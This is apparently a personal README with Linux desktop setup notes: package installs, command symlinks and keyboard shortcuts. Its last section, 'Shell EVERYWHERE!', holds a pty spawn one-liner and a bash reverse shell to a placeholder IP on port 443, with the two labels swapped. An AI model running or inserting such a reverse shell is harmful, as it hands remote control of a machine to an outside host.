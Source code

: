 ## ZyDesk
Setup for my Desktop, some configurations for my Desktop themes and shortcuts.  

### My Current Desktop

### With Default Panel
<p align="center">
  <img src="wallpaper/my-panel.png">
</p>

### With Latte Dock
<p align="center">
  <img src="wallpaper/my-latte.png">
</p>

### Must HAVE Apps!!!
```
sudo apt install git wget curl python3-pip
sudo apt install zsh tmux fonts-powerline tilix python3-nautilus
sudo ln -s /etc/profile.d/vte-2.91.sh /etc/profile.d/vte.sh
sudo apt install polybar rofi ranger
sudo apt install neofetch tree htop fonts-noto-color-emoji telegram-desktop
```
- https://github.com/zyairelai/kali-anonsurf
- https://marktext.app/
```
chmod a+x {marktext.AppImage}
mv $HOME/Downloads/{marktext.AppImage} /usr/bin/marktext
```

### Personal Terminal Shortcuts
```
sudo ln -s /bin/xdg-open /bin/open
sudo ln -s /bin/python3 /bin/py
sudo ln -s /bin/python3 /bin/python
sudo ln -s /bin/clear /bin/c
sudo ln -s /bin/ranger /bin/r
```

### Keyboard Shortcuts
```
Home folder                         - Ctrl + Alt + F
Launch Web Browser                  - Ctrl + Alt + G
Marktext                            - Ctrl + Alt + M
Hide all normal windows             - Ctrl + Alt + D
Settings                            - Ctrl + Alt + S
Move to workspace above/below       - Ctrl + Alt + Up / Down
Move window one workspace up/down   - Super + Up / Down
Close window                        - Alt + W
```

### Shell EVERYWHERE!
1. Reversed Shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
2. Stable Shell
```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```
